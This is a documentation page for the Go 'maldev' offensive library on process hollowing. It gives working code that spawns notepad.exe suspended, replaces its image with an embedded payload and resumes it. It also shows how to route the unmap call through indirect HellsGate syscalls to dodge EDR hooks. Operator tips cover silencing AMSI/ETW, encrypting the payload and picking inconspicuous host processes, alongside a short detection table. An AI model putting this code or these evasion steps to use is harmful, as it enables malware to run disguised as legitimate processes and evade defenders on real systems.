

# Process hollowing

[← injection index](README.md) · [docs/index](../../index.md)

> **New to maldev injection?** Read the [injection/README.md
> vocabulary callout](README.md#primer--vocabulary) first.

## TL;DR

Spawn a benign host process (e.g. `notepad.exe`) **suspended**,
strip its loaded image via `NtUnmapViewOfSection`, allocate a fresh
region at the payload's preferred image base, copy the payload's
headers + sections, patch the suspended thread's `RIP` to the
payload entry, return the still-suspended thread to the caller.

The host's command-line, image path, parent PID, and PEB all stay
the spawned target's — defender tooling reports a benign
`notepad.exe`, but the running code is yours.

| Trait | Value |
|---|---|
| **Target class** | Cross-process (caller spawns the host) |
| **Creates a new thread?** | No — reuses the spawned host's main thread |
| **Uses `WriteProcessMemory`?** | Yes (headers + each section + `SetThreadContext`) |
| **Stealth tier** | Moderate — well-known EDR signature: `CreateProcess(SUSPENDED)` → `NtUnmapViewOfSection` → `VirtualAllocEx` → `WriteProcessMemory` → `SetThreadContext` → `ResumeThread`. Pair with `SetCaller(Indirect+HellsGate)` to route the Nt unmap through an unhooked syscall stub. |
| **Sacrifice** | The host's original image is gone; recovery requires re-spawning. No cross-image dependency on the original target |

When to pick a different method:

- Need image-backed RX without a new process? → [Module Stomping](module-stomping.md)
- Don't need the masquerading host? → [Reflective DLL](../runtime/bof-loader.md) / [Section Mapping](section-mapping.md)
- Want both new process AND image-backed mask? → [Phantom DLL](phantom-dll.md) chained with a new-process spawn

## Primer

Hollowing trades stealth for setup. The technique demands a real
target binary on disk, a real `CreateProcessW` event, and a known
sequence of cross-process API calls — all of which EDRs have
modelled extensively. The payoff is a host process that looks
identical to the operating-system-spawned `notepad.exe` from every
defender vantage: `Get-Process`, Sysmon Event 1, parent/child
trees, command-line inspectors.

`inject.Hollow` does the full sequence end-to-end and returns the
suspended host. **You** decide when to `ResumeThread` (or
`TerminateProcess` to abort), which lets you chain follow-on steps
— context patches, debugger attachment, additional WriteProcessMemory —
before the payload runs.

## How it works



## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/inject#Hollow`](https://pkg.go.dev/github.com/oioio-space/maldev/inject#Hollow)
is the authoritative reference. This page teaches the concept;
godoc is the spec.

## Examples

### Simple — hollow notepad with an embedded payload

```go
import (
    _ "embed"

    "github.com/oioio-space/maldev/inject"
    "golang.org/x/sys/windows"
)

//go:embed payload.exe
var payload []byte

func main() {
    res, err := inject.Hollow(inject.HollowConfig{
        Target:  `C:\Windows\System32\notepad.exe`,
        Payload: payload,
    })
    if err != nil {
        // ErrHollowSpawn / ErrHollowParse / ErrHollowUnmap / ... — branch on errors.Is.
        return
    }
    defer windows.CloseHandle(res.Process)
    defer windows.CloseHandle(res.Thread)

    // Run it.
    _, _ = windows.ResumeThread(res.Thread)
}
```

### Composed — route the Nt unmap through an indirect syscall

```go
import (
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewHellsGate())
defer caller.Close()

res, err := inject.Hollow(inject.HollowConfig{
    Target:  `C:\Windows\System32\notepad.exe`,
    Payload: payload,
    Caller:  caller,
})
```

When `Caller` is non-nil, `NtUnmapViewOfSection` is dispatched via
the indirect-syscall stub `caller` is configured for — the userland
ntdll hook never sees the call. Other steps (CreateProcess,
VirtualAllocEx, WriteProcessMemory, GetThreadContext) stay on the
kernel32 path; those are the unavoidable signature surface.

### Sentinel-error branching

```go
switch {
case errors.Is(err, inject.ErrHollowSpawn):
    // target.exe didn't spawn (path wrong, AV blocked, integrity mismatch).
case errors.Is(err, inject.ErrHollowParse):
    // payload bytes aren't a valid x64 PE.
case errors.Is(err, inject.ErrHollowUnmap):
    // NtUnmapViewOfSection refused — target may be PPL or signed.
case errors.Is(err, inject.ErrHollowAlloc):
    // VirtualAllocEx returned a non-preferred base; current impl
    // refuses to apply base relocations (footgun).
case errors.Is(err, inject.ErrHollowWrite):
    // WriteProcessMemory failed mid-section.
case errors.Is(err, inject.ErrHollowContext):
    // GetThreadContext / SetThreadContext failed.
}
```

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| `CreateProcessW(SUSPENDED)` + `NtUnmapViewOfSection` cross-process | Sysmon Event 8 / 10; ETW-TI; behavioural EDR — classic hollowing signature |
| `VirtualAllocEx` at non-trivial image base after unmap | ETW Microsoft-Windows-Threat-Intelligence |
| `WriteProcessMemory` for >100 bytes followed by `SetThreadContext` | Behavioural EDR — second strongest signal |

D3FEND counters:

- [D3-PA](https://d3fend.mitre.org/technique/d3f:ProcessAnalysis/) — process-creation telemetry tied to the suspended-spawn pattern.
- [D3-FCA](https://d3fend.mitre.org/technique/d3f:FileContentAnalysis/) — YARA on the loaded image.

Hardening for the operator:

- Use `SetCaller(Indirect+HellsGate)` to unhook the unmap call.
- Pair with [`evasion/preset.Stealth`](../evasion/preset.md) to
  silence AMSI/ETW before the hollow.
- Pick a host whose presence isn't suspicious for the user's
  context (avoid `notepad.exe` in unattended automation
  scenarios — a one-off `notepad` is itself a tell).
- Encrypt the payload at rest via [`crypto`](../crypto/README.md)
  and decrypt in-process before passing to `Hollow`.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage |
|---|---|---|
| [T1055.012](https://attack.mitre.org/techniques/T1055/012/) | Process Hollowing | full primitive — spawn-unmap-alloc-write-patch-resume |

## Limitations

- **x64 only.** Payload must be PE32+. 32-bit payloads under WoW64
  need a different target + a wow64-aware code path.
- **No base-relocation handling.** If `VirtualAllocEx` lands at a
  non-preferred base, `inject.Hollow` returns `ErrHollowAlloc`
  rather than patch the image's relocs. Most operator-friendly
  targets (notepad, calc) free the preferred base after the unmap
  so this branch is rare — but a target that pre-loaded the same
  base for legitimate reasons would trip it.
- **No TLS callback handling.** Payloads that use TLS callbacks
  (rare in operator-built tooling) would skip them under the
  current entry-point patch.
- **The unmap can be refused.** PPL / signed processes (lsass,
  MsMpEng, etc.) reject `NtUnmapViewOfSection` even from
  same-user contexts. Pick non-PPL targets.

## See also

- [`module-stomping`](module-stomping.md) — local-only image-mask alternative
- [`phantom-dll`](phantom-dll.md) — cross-process image mask without hollowing
- [`section-mapping`](section-mapping.md) — alternative cross-process placement (NtMapViewOfSection)
- [`evasion/preset`](../evasion/preset.md) — silence telemetry around the hollow
- [Operator path](../../by-role/operator.md)
